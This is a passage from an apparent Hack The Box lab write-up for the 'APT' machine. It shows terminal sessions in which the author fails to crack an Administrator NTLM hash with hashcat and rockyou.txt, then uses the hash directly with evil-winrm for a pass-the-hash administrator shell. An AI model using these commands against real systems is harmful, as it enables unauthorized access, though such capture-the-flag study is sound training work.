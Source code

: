 ```text
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ hashcat -O -D1,2 -a0 -m1000 admin.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

...snipped...

Session..........: hashcat                       
Status...........: Exhausted
Hash.Name........: NTLM
Hash.Target......: c370bddf384a691d811ff3495e8a72e2
Time.Started.....: Thu Apr  1 18:11:53 2021 (5 secs)
Time.Estimated...: Thu Apr  1 18:11:58 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2957.7 kH/s (0.60ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 6538/14344385 (0.05%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[213134356173382a] -> $HEX[042a0337c2a156616d6f732103]

Started: Thu Apr  1 18:11:51 2021
Stopped: Thu Apr  1 18:11:59 2021
```

I was able to go through all of `rockyou.txt` in less than 10 seconds, but the password was not in it. I decided to just try to use the hash to log in instead.

```text
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ evil-winrm -u Administrator -H c370bddf384a691d811ff3495e8a72e2 -i apt.htb.local

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ============================================
htb\administrator S-1-5-21-2993095098-2100462451-206186470-500


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                          Attributes
========================================== ================ ============================================ ===============================================================
Everyone                                   Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
```